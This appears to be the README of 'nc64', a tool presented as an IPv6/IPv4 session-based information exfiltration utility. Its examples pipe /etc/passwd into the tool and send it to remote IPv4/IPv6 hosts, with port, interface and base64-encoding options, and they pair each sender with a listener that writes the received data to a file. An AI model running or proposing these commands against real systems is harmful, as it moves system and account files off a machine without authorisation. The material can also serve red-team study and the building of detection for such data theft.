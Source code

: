 # nc64
IPv6 and IPv4 session based information exfiltration tool

# Examples:
cat /etc/passwd | python3 nc64.py -h4 192.168.10.10 -h6 2a02:1010:12aa::11

python3 nc64.py -l > out

cat /etc/passwd | python3 nc64.py -i wlan0 -p 4444 -h4 192.168.10.10 -h6 2a02:1010:12aa::11

python3 nc64.py -l -i eth1 -p 4444 > out

cat /etc/passwd | python3 nc64.py -h4 192.168.10.10 -h6 2a02:1010:12aa::11 -b64 -T

python3 nc64.py -l -b64 > out
